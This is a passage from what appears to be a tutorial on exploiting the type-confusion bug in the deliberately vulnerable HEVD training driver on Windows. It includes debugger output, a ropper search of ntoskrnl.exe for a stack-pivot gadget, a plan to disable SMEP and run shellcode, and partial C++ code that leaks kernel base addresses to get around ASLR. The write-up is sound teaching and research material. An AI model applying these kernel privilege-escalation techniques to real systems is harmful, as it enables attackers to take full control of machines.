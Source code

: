 We set a breakpoint and then run this first version of our exploit:

```
0: kd> ba e1 HEVD!TypeConfusionObjectInitializer
0: kd> g
1: kd> 
HEVD!TypeConfusionObjectInitializer+0x37:
fffff804`8669754b ff5308          call    qword ptr [rbx+8]
1: kd> dq rbx+8
ffffbf8c`e5b7b248  42424242`42424242 a53058d9`e6cdbefe
```

We can see that the driver is trying to call our provided "B"s which of course fails. So now that we can trigger the vulnerability the question remains on what address we want to call and how that helps us in elevating privileges.

Since SMEP is active, we can not just allocate shellcode and have the driver call it, so we have to make the call to a ROP-gadget that allows us to pivot the kernel stack to a location we control. This would allow us to place more ROP-gadgets there to ultimately disable SMEP & jump to Shellcode. Let’s try to find such a pivot gadget via ropper:

```
ropper --file ntoskrnl.exe --console --clear-cache
(ntoskrnl.exe/PE/x86_64)> search mov esp, 0x
...
0x0000000140317f70: mov esp, 0x48000000; add esp, 0x28; ret;
...
```

Note that we do not want just any value, it should be one that is aligned otherwise we risk getting a BSOD. The one we found looks pretty good – the add esp instruction is not bothering us too much as we can just add some dummy values before putting our next gadgets. Now that we know the address our stack will be at after executing the gadget, we can allocate it and fill it with a few ROP-nops to make sure that our stack pivot is working as intended. Since ASLR is enabled, we also have to get the address the kernel is loaded at as discussed in the last post.

```cpp
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#define QWORD ULONGLONG

QWORD getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return (QWORD)drivers[i];
                }
            }
        }
    }
    return 0;
}

typedef struct _UserObject {
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} UserObject;
```